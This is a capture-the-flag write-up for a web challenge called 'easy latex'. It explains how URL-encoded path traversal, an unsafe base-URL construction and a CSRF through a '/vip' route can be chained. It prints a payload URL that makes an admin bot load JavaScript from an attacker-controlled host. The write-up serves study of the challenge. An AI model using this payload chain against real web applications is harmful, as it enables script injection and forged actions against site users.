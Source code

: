 # easy latex

Key point: CSRF, XSS

* In the `/share` routing function of `web/app.js`, the `req.parms` method supports URL encoding parsing. Therefore, we can use `/share/..%2fpreview` to redirect the admin bot to access `/preview` routes.
* The `/preview` routing function of `web/app.js` uses `new URL(theme, ...)` to create a `URL` object `base`, where `theme` is a request parameter. However, this usage can lead to a vulnerability. If we set `theme` to `//<ip>:<port>`, the final url of the object will become an arbitrary remote address. At the same time, the `base` object will be used specify the source of a `js` file. Therefore, we can use the following payload to enable the admin bot to load the evil `js` file on our own server under the `/js/` path.

        /share/..%2Fpreview%3Ftex%3Dwww%26theme%3D%2F%2F<ip>%3A<port>

* Because the cookie of the admin bot is set to `httpOnly`, so we can not exploit `js` file to get the cookie. Fortunately, in the `/vip` routing function of `web/app.js`, it uses the same instantiation method as the `/preview` routing function. It is worth noting that the `username` parameter is controllable and can be constructed arbitrarily by accessing the `/login` route. Therefore, we can implement a CSRF attack through the `/vip` routing.